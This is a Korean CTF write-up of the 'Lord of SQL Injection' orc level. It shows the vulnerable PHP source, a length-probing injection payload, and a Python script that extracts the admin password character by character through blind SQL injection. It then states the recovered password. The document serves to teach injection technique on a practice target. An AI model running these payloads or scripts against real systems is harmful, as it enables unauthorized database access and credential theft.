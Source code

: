 # Lord of SQL Injection No.4 - Orc
## 문제 출제 의도
1. Blind SQL Injection의 이해 여부 확인.
2. Blind SQL Injection을 풀기 위해 코드 작성 능력 확인.
## 소스 코드  
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
?>
~~~
##소스코드 분석
+ addslashes 함수
    - addslashes함수는 다음과 같은 형식을 취한다.
    ~~~
    string addslashes ( string $str )
    ~~~
    - 특수문자로 부터 발생될 수 있는 에러를 피하기위해 특수문자 앞에 역슬래쉬를 붙여주는 역활을하는 함수.
    - 원래대로 돌려줄때는 백슬레쉬를 제거해주는 stripslashes() 함수를 쓴다.
    - addslashed함수에 대해 잘 모르겠다면 다음 사이트를 참고하자.  
    <a href="http://php.net/manual/kr/function.addslashes.php">PHP: addslashes - Manual</a>
##분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
+ pw
    - pw에 특수문자를 입력해도 특수문자 처리가 되지 않는다.
+ 풀이 성공 조건
    - 입력한 pw와 받아 온 실제 pw가 같아야 한다.
## 문제 해결
1. Blind SQL Injection
    - pw길이
        * 직접 패스워드를 알아야 함으로 우선 비밀번호가 몇 글자인지 알아야 한다.
        * 따라서 URL 뒤에 다음과 같은 문자열을 추가 하여 확인 가능하다.
        ~~~
        ?pw=' or id='admin' and length(pw)=8-- -
        ~~~
        * 이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
    - pw값
        * substr함수
            1. substr은 다음과 같은 형식을 취한다.
            ~~~
            substr(대상문자열,시작index,길이)
            ~~~
            2. substr은 문자열을 자르는 함수이다. 시작 인덱스에서 길이만큼 문자열을 자른다.
            3. 이를 통해 문자열을 잘라 문자를 하나씩 알아낸다.

        * 위 방법과 유사하게 한글자씩 알아내는 것은 코드를 이용하여 풀면 편하다.  
        * 다음과 같은 파이썬 코드를 이용하면 pw값을 쉽게 알 수 있다.
        ~~~
        import urllib.request
        from urllib.parse import quote
        key = ""
        for i in range(1, 9):
            for j in range(48, 127):
                url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
                data="' or id='admin' and substr(pw,1,{})='{}'#".format(str(i), key + chr(j))
                print(data)

                data = quote(data)
                re = urllib.request.Request(url + data)
                re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
                re.add_header("Cookie", "PHPSESSID=4p56htpvcookallo00ondblnf6")

                res = urllib.request.urlopen(re)

                if str(res.read()).find("Hello admin") != -1:
                    key += chr(j).lower()
                    print(key)
                    break
        print(key)
        ~~~
        * 위 코드를 실행하면 295d5844가 출력된다. 이를 pw값에 GET 방식으로 입력하면 해결된다.